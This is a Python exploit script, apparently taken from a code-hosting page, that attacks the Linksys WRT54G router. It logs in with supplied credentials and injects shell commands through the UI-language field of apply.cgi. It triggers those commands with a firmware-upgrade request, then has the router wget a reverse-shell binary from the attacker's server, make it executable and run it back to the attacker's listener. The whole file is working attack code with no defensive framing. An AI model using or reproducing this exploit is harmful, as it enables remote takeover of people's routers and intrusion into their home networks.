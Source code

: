 ## exp

**exploit.py**

```
import argparse
from dataclasses import dataclass
from typing import Tuple

import requests

import router_requests


@dataclass
class Router:
    host: str
    creds: Tuple[str, str]

    DEFAULT_LANG = 'en'

    REVSHELL_REMOTE_PATH = '/tmp/X'
    PING_LOG_REMOTE_PATH = '/tmp/ping.log'

    def exploit(self, attacker_host: str, attacker_handler_port: int, attacker_http_port: int):
        print(f'[*] Exploiting Linksys WRT54G @ {self.host}')
        self._upload_revshell(attacker_host, attacker_http_port)
        self._chmod_revshell_executable()
        self._run_revshell(attacker_host, attacker_handler_port)
        self._set_ui_language(self.DEFAULT_LANG)

    def _upload_revshell(self, attacker_host: str, attacker_http_port: int):
        print('[*] Uploading reverse shell executable.')
        self._run_shell_cmd(
            f'wget http://{attacker_host}:{attacker_http_port}/revshell -O{self.REVSHELL_REMOTE_PATH}')

    def _chmod_revshell_executable(self):
        print('[*] Making the reverse shell executable.')
        self._run_shell_cmd(f'chmod +x {self.REVSHELL_REMOTE_PATH}')

    def _run_revshell(self, attacker_host: str, attacker_handler_port: int):
        print('[*] Running the reverse shell!')
        self._run_shell_cmd(f'{self.REVSHELL_REMOTE_PATH} {attacker_host} {attacker_handler_port}')
        print('[*] Reverse shell exited!')

    def _run_shell_cmd(self, cmd: str, with_output: bool = False):
        cmd = f';{cmd}>{self.PING_LOG_REMOTE_PATH} 2>&1;' if with_output else f';{cmd};'
        print(f'[*] Running: {cmd}')
        self._set_ui_language(cmd)
        self._upgrade_firmware()

    def _set_ui_language(self, ui_language: str):
        req_query = router_requests.get_ui_language_query(ui_language)
        req = requests.post(f'http://{self.host}/apply.cgi', data=req_query, auth=self.creds)
        if not req.ok:
            raise ValueError(f'Failed to change ui_language. Request: {req}')

    def _upgrade_firmware(self):
        print(f'[*] Issuing a firmware upgrade.')
        req_query = router_requests.get_upgrade_query()
        req = requests.post(f'http://{self.host}/upgrade.cgi', data=req_query, auth=self.creds)
        if not req.ok:
            raise ValueError(f'Failed to issue a firmware upgrade. Request: {req}')
```